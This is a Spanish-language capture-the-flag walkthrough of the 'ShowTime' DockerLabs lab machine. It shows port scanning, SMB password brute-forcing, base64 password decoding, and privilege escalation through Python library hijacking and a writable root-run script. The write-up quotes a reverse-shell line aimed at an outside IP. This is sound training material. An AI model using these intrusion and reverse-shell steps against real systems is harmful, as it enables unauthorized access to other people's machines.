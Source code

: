 ```yaml
---
title: ShowTime - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Zunderrub        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d02bd468-5cb4-4664-ac53-54895be6a3e6)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `139` (NetBIOS)
- `445` (SMB)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,139,445 -sCV 172.17.0.2 -oG targeted 
```
![image](https://github.com/user-attachments/assets/5a19181c-9271-406b-b7ba-72e6e97392bc)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web con temática de Juego de Tronos.

![image](https://github.com/user-attachments/assets/42605eb6-89ea-404a-8f13-81905647e102)

No vemos nada interesante, pero nos quedaremos con este mensaje por si resulta imprensidible para averiguar como acceder.

` -- Jon: Tengo que conseguir que Arya lleve el mensaje a Daenerys para que nos mande su apoyo y el de sus dragones` 

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

 ![image](https://github.com/user-attachments/assets/80335fa0-eb83-4e74-a7c4-a10d96e1e2fa)

Encontramos la ruta `/dragon`, el cual vemos que hay un `index` a un archivo llamado `EpisodiosT1`, entramos y vemos lo siguiente:

![image](https://github.com/user-attachments/assets/eb33de46-2ffb-43a3-938d-139862f7374b)

Como no vemos nada mas vamos a ver el puerto `443` si a alguna de estas frases es una contraseña del usuario `jon` que vimos anteriormente.

![image](https://github.com/user-attachments/assets/8719d9c0-03b3-4d5d-88f1-d1d4d72a05ff)

Para ello usaremos `crackmapexec` y meteremos todos los episodios que nos dieron en un .txt

![image](https://github.com/user-attachments/assets/0936c97f-7489-45af-bbf3-5c8bf5ecaf8b)

Ahora haremos fuerza bruta 

```bash
crackmapexec smb 172.17.0.2 -u 'jon' -p episodios.txt 
```
![image](https://github.com/user-attachments/assets/4cc1418f-9bc3-4ebb-b877-1107be74268a)

Vemos el usuario "`jon`" con contraseña "`seacercaelinvierno`", ahora podemos usar `smbmap`.

```bash
smbmap -u 'jon' -p 'seacercaelinvierno' -H 172.17.0.2
```
![image](https://github.com/user-attachments/assets/c94705f1-1e80-4316-98c9-7eec954dd3e4)

Ahora accedemos a la carpeta `shared` para ver que contiene con `smbclient`.

```bash
smbclient //172.17.0.2/shared -U 'jon'
```

Contiene un archivo llamado `proteccion_del_reino`, los descargamos a nuestra maquina con `get`.

![image](https://github.com/user-attachments/assets/f1dbbc72-4032-4549-af13-d7b1a0f8a684)

Al abrir el mesajes vemos que contiene lo siguiente 

```txt
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```
Como podemos observar nos dice que hay una contraseña en un lenguaje de cifrado , por experiancia sabermos que cuando es un igual al final de las lineas normalmente es base64 , asi que probamos con base64.

```bash
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
```

Nos devuelve la contraseña `hijodelanister`.

Vamos a probar a acceder con esa contraseña al servicio de `ssh` con el usuario `jon`, y tenemos acceso.

![image](https://github.com/user-attachments/assets/e807bdb7-6485-4c15-b64c-384445718536)

# Escalada de privilegios 

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `python3` como `aria` en `.mensaje.py`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/64e7557c-d1f4-4a4a-9e21-03eef79bd91e)

Viendo el contenido de el script se están importando dos librerías pero no tienen su ruta absoluta por lo que se podría acontecer un `Library Hijacking`.

![image](https://github.com/user-attachments/assets/e8410883-92a0-469d-8d0f-49c418867e0e)

Lo que haremos es crear un fichero .py con el nombre de una de las librerías que contiene el script con el siguiente contenido.

![image](https://github.com/user-attachments/assets/cb6628ac-2b09-4993-98ed-f7fc52b522e7)

```bash
import os
os.system("/bin/bash")
```
Ahora ejecutamos el script de la siguiente forma.

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

Podemos ver que ya somos el usuario aria.

![image](https://github.com/user-attachments/assets/4b480cb2-d5bb-4a6b-ae8c-59aecba1732b)

Volvemos a ejecutra `sudo -l`, notamos que tiene permisos para ejecutar `cat` y `ls` como `daenerys`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/fd6b8a89-e0ad-4e5c-9e60-a0921eeafb91)

Con esos dos comando podemos ver el contenido de su home y vemos que tenemos un mensaje para `jon`.

![image](https://github.com/user-attachments/assets/6d77c82d-c1ec-4882-b0a4-4ea67edcb03b)

Ahora accederemos con daemerys con la contraseña que hemos obtenido.

![image](https://github.com/user-attachments/assets/38f6d752-190b-4dd4-a40d-9889fae745df)

Volvemos a ejecutra `sudo -l`, notamos que tiene permisos para ejecutar `bash` como `root` en el archivo `/home/daenerys/.secret/.shell.sh`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/62f3db3c-e1d3-4072-b734-f3bd21fb8acb)

Este es el contenido:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.234.42/443 0>&1
```

Al comprobar si tenemos permisos de escritura , vemos que podemos modicifar el contenido para generar una shell root.

```
#!/bin/bash

bash -p
```

Ejecutamos el script.

![image](https://github.com/user-attachments/assets/79125ec4-9a7c-4e98-ac17-21858edb5295)

Ya somos root

